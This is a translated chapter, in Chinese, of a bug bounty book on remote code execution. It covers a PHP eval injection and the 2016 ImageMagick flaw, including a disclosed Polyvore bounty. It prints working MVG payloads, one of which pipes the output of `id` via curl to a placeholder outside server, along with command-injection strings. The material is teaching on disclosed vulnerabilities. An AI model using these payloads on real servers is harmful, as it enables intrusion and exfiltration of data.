


# 十五、代码执行

> 作者：Peter Yaworski

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 描述

远程代码执行是指注入由漏洞应用解释和执行的代码。这通常由用户提交输入，应用使用它而没有任何类型的处理或验证而导致。

看一下这行代码：

```php
$var = $_GET['page']; 
eval($var);
```

这里，漏洞应用可能使用 URL` index.php?page=1`，但是，如果用于输入了`index.php?page=1;phpinfo() `，应用就会执行`phpinfo`函数，并返回其内容。

与之类似，远程代码执行有时用于指代命令注入，OWASP 区分了这两点。使用命令驻入，根据 OWASP，漏洞应用在主机操作系统上执行任何命令。同样，这也由不合理处理和验证用户输入导致，这会导致用户输入传递给操作系统的命令。

例如 PHP 中，这可能表现为用户输入传递给`system`函数。

## 示例

### 1\. Polyvore ImageMagick

ImageMagick 是个软件包，通常用于处理图像，例如剪裁、缩放等等。 PHP 的 imagick、Ruby 的 rmagick 以及 paperclip，以及 NodeJs 的 imagemagick 都利用了它。在 2016 年 4 月，该库中发现了多个漏洞，其中可利用的漏洞之一就是执行远程代码，这就是我关注的。

简单来说，ImageMagick 并没有合理地传给他的过滤文件名称，并且最终用于执行`system`方法调用。因此，攻击者利益传入命令来执行，就像`https://example.com”|ls“-la`，它会被执行。一个来自 ImageMagick 的例子是：

```
convert 'https://example.com"|ls "-la' out.png
```

现在，有趣的是，ImageMagick 为 MVG（Magick Vectire Graphics）文件定义了自己的语法。所以，攻击者能够创建文件`exploit.mvg`，带有下列代码：

```
push graphic-context 
viewbox 0 0 640 480 
fill 'url(https://example.com/image.jpg"|ls "-la)' 
pop graphic-context
```

这之后会传给该库，并且如果站点存在漏洞，代码会执行并列出目录中的文件。

了解其背景之后，Ben Sadeghipour 测试了  Yahoo acquisition 站点以及 Polyvore 是否存在漏洞。就像他博文中所述，Ben 首先在它所控制的本地机器上测试了该漏洞，来确认`mvg`文件是否正常工作。这是他使用的代码：

```
push graphic-context 
viewbox 0 0 640 480 
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`id | curl http://SOMEIPADDRESS:80
80/ -d @- > /dev/null`' 
pop graphic-context
```

这里你可以看到，它使用了 CURL 库来调用 SOMEIPADDRESS（将其修改为你服务器的地址）。如果成功，你就会得到像这样的响应：



Ben Sadeghipour  ImageMagick 测试的服务器响应

下面 Ben 浏览了 Polyvore，将文件上传为它的资料头像，并在它的服务器上收到了这个响应：



Ben Sadeghipour Polyvore ImageMagick 响应

> 重要结论

> 阅读是成功渗透的重要组成部分，这包括阅读软件漏洞和常见漏洞，以及披露（CVE 标识符）。当你碰到没有安装安全更新的站点时，了解之前的漏洞能够帮助你。这里， Yahoo 已经修补了服务器，但是没有正确完成（我找不到关于这是什么意思的解释）。一次你，了解 ImageMagick 漏洞让 Ben 特地以这个软件为目标，并得到了 $2000 的奖金。

## 总结

远程代码执行，就像其他漏洞一样，通常是用户输入没有合理验证和处理的结果。这里提供的例子中，ImageMagick 没有合理转义可能为恶意的内容。它和 Ben 对该漏洞的知识一起，让他能够特地寻找和测试一些漏洞站点。对于搜索这些类型的漏洞来说，没有简单的答案。要注意发布的 CVE，并且留意站点所使用的软件，它们可能会过时，也可能存在漏洞。
